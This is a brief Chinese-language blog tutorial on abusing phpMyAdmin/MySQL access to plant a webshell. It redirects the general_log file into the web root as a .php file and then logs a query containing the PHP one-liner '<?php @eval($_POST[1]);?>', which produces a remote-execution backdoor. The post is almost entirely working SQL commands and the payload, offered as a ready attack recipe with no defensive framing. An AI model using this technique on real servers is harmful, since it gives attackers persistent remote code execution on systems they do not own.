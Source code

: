 # phpMyAdmin突破secure-file-priv写WebShell





1.查看`secure_file_priv`值
```bash
show global variables like '%secure_file_priv%';
# show global variables like '%secure%';

# 此开关默认为NULL：即不允许导入导出
# 没有具体值时：表示不对mysqld 的导入|导出做限制
# 值为/tmp/ ：表示限制mysqld 的导入|导出只能发生在/tmp/目录下
```

2.查询操作日志存放路径
```bash
show variables like 'general_log%';

# 操作日志默认也是关闭的
```

3.首先打开操作日志记录
```bash
set global general_log = 'ON';
```

4.设置操作记录日志路径(`前提是获取到了绝对路径`)
```bash
# set global general_log_file='路径地址';
# 选择网站的目录里面
set global general_log_file='D:\\phpstudy\\PHPTutorial\\WWW\\xx.php'
```

5.执行sql语句，mysql会将执行的语句内容记录到我们指定的文件中，就可以getshell了
```bash
select '<?php @eval($_POST[1]);?>';
```

6.访问webshell，进行后续操作














---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/phpmyadmin%E7%AA%81%E7%A0%B4secure-file-priv%E5%86%99webshell/  

